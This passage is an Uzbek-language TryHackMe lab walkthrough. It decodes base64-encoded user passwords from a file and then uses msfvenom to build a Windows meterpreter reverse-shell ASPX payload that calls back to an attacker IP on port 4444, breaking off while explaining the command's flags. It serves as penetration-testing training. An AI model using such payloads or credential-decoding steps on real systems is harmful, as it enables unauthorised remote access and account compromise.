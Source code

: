 ```
╭─mete   󰉖 ~/THM/THM-LABS/0106-2025
╰─ ❯❯ cat passwords.txt 
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

> **@Akhatkulov:**
>
> Fine)
>
> Ikkalasi ham **base64** ko'rinishida kodlangan ekan.

Endi esa bularni koddan chiqaramiz.

```╭─mete   󰉖 ~
╭─mete   󰉖 ~
╰─ ❯❯ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$
╭─mete
╰─ ❯❯ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
Bob - !P@$$W0rD!123
```

Tushuntirish:

**echo** — bu matnni ekranga chiqarish uchun.

**|** -- bu pipe deyiladi. Hozircha buni ikki buyruqni o'zaro bog'lash deb tushuning. Keyin tushunib olasiz.

**base64 -d** — bu esa **base64** kodlash uchun dastur **-d** esa decode qilish kerak ekanini bildiradi.



Bu yerga endi zararli fayllar joylaymiz. Bob va Billning parollari esa bizga keyinroq asqotadi.

## Zararli fayl(reverse shell) tayyorlash

```
╭─mete   󰉖 ~
╰─ ❯❯ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.24.135 lport=4444 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 203846 bytes
Final size of aspx file: 1030518 bytes
Saved as: shell.aspx
```

Bu msfvenom orqali Reverse Shell tayyorlash!
Buyruq tahlili:

**-p** — bu orqali payload belgilayapmiz
